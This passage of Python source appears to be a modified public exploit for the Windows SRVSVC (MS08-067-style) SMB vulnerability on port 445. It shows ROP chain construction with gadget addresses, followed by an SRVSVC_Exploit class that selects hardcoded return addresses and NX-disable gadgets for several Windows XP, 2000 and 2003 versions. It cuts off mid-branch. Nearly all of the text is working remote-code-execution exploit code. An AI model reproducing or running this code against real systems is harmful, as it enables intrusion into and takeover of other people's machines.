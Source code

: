 ```python
    ret += struct.pack('<L', rvas['call_HeapCreate'] + module_base)
    ret += struct.pack('<L', 0x01040110)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L',
                       rvas['add eax, ebp / mov ecx, 0x59ffffa8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget1
    ret += struct.pack('<L', rvas['mov [eax], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget2[0]
    ret += gadget2[1]
    ret += struct.pack('<L', rvas[
                       'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget2[2]
    ret += struct.pack('<L', rvas['mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['add eax, 8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget3
    return ret


class SRVSVC_Exploit(Thread):
    def __init__(self, target, os, port=445):
        super(SRVSVC_Exploit, self).__init__()

        # MODIFIED HERE
        # Changed __port to port ... not sure if that does anything. I'm a newb.
        self.port = port
        self.target = target
        self.os = os

    def __DCEPacket(self):
        if (self.os == '1'):
            print('Windows XP SP0/SP1 Universal\n')
            ret = "\x61\x13\x00\x01"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '2'):
            print('Windows 2000 Universal\n')
            ret = "\xb0\x1c\x1f\x00"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '3'):
            print('Windows 2003 SP0 Universal\n')
            ret = "\x9e\x12\x00\x01"  # 0x01 00 12 9e
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '4'):
            print('Windows 2003 SP1 English\n')
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
        elif (self.os == '5'):
            print('Windows XP SP3 French (NX)\n')
            ret = "\x07\xf8\x5b\x59"  # 0x59 5b f8 07
            disable_nx = "\xc2\x17\x5c\x59"  # 0x59 5c 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '6'):
            print('Windows XP SP3 English (NX)\n')
```